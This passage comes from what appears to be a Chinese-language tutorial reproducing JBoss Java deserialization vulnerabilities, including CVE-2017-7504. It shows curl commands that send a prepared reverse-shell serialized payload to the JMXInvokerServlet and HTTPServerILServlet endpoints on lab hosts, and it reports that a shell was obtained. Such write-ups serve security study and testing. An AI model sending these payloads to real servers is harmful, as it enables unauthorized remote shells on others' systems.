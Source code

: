 
#### 漏洞验证

    
    
    访问/invoker/JMXInvokerServlet，返回如下页面，说明接口开放，此接口存在反序列化漏洞。  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201008.png)image-20210823092835771

#### 漏洞复现

这里利用上面生成的序列化数据ReverseShellCommonsCollectionsHashMap.ser，发送到/invoker/JMXInvokerServlet接口中；

    
    
    curl http://192.168.10.154:8080/invoker/JMXInvokerServlet --data-binary @ReverseSh  
    ellCommonsCollectionsHashMap.ser  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201009.png)image-20210823093222160

成功反弹shell。

#### 安全防护

同上；

### 3.JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

#### 漏洞原理

这个漏洞与CVE-2015-7501一样，都是利用了Apache Commons
Collections的基础库进行Java反序列化漏洞的利用。差别在于CVE-2017-7504利用路径是/jbossmq-
httpil/HTTPServerILServlet，CVE-2015-7501的利用路径是/invoker/JMXInvokerServlet。

#### 影响版本

    
    
    Jboss AS 4.x及之前版本  
    

#### 漏洞验证

    
    
    访问/jbossmq-httpil/HTTPServerILServlet，出现如下页面，说明存在该漏洞  
    

![]()image-20210823094243623

#### 漏洞复现

这里利用上面生成好的序列化数据，发送到改接口中：

    
    
    curl http://192.168.10.213:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    
